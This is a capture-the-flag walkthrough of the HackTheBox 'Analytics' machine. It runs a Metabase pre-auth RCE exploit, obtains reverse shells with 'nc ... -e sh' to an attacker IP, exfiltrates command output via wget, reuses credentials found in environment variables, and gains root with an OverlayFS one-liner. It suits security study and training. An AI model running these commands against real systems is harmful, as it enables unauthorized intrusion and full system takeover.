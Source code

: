 # HackTheBox: [Analytics](https://app.hackthebox.com/machines/Analytics)

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:

![](_/htb-analytics-20231010-1.png)

## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

### Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
